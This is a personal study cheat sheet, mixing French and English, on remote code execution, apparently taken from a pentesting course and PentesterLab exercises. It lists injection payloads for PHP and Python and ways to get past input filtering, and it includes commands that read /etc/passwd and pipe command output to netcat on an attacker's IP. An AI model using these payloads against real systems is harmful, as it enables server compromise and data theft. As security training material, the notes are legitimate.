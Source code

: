 # RCE

## Principe

* J'ignore si l'abréviation RCE correspond à _Remote Code Execution_ ou _Remote Command Execution_, les deux étaient utilisés pour le même genre de failles dans le cours.
* Possibilité d'exécuter des commandes de l'OS sur le serveur.

## Workflow

1. Discover on which language the server runs \(python, php, ruby, etc\), and if possible which version
2. Try to break the input by inserting a `'` or an `"`
3. Try to reconstruct it after the break with just simple text
4. In function of the language, try to run a simple OS command in lieu of the dummy text
5. Construct the final payload

## Language specifics to run commands

* PHP
  * `system("command")`
* Python
  * os.system\("command"\) and variants
  * Do that inside an `str()`
  * If you need to import os.system, use this function in str\(\) : `__import__('os').system(...)`
* Ruby
  * `command`

## General tips & trick

* A basic OS command for test is `uname` \(but i suppose it would work only on a linux system\)
* Si le résultat n'est pas reflété, utiliser à la place `sleep 10` pour voir si la commande a bien été injectée
  * To send back result when it's not reflected, simply pipe it to nc : `whoami | nc <ip> <port>` \(given that the remote server has nc of course\)
* When your payload is included inside a string, **use concatenation** : `" . system('cat /etc/passwd') ."`
* Don't forget to **urlencode**
* If some characters seems to be sanitized when the request first arrive, try to base64 encode them. Since the code you inject is executed, you can make the server decode it the moments it uses it.
* Bypass sanitation :
  * If the `/` is sanitize, you can usually get it by echoing the home directory `echo $HOME`
  * Si un autre caractère est sanitize et qu'il existe dans une variable d'env, on peut faire ça :
    * `echo ${ENV:13:1}` Le 1er nombre étant la position du char et le second le nombre à récupérer. Remplacer ENV par le nom de var d'env bien sûr
  * On peut aussi utiliser `printf "\x41"` en remplacer 41 par le nombre hexa correspondant

## PHP specific tips and tricks

* If you've got input reflected into the html page, try to inject `<?php phpinfo(); ?>`
* Try to get warnings instead of errors as they won't stop the execution flow
* PHP source code is available, which is useful to see how you can break out of a function
* In php, dev usually sort either by using sql's `order by` or php's `usort`. And in usort, they often used a function created with `create_function` \(however it's now deprecated\)
  * In an example using usort and then create\_function, the easiest is to try and break out create\_function, even more so since we can have it's source code. This is the pentesterlab payload that would break it \(Essential - Code Execution 2\) : `?order=id);}system('cat /etc/passwd');//`. I thinks that stems from the fact that it's used in a `sprintf` as a `%s`.
* It's been deprecated in 5.5 and removed in 7, but you could use the regex modifier `/e` to make `preg_replace` evaluate the replacement before using it :  `www.example.com/?replacement=phpinfo()&pattern=/hello/e&base=hello`

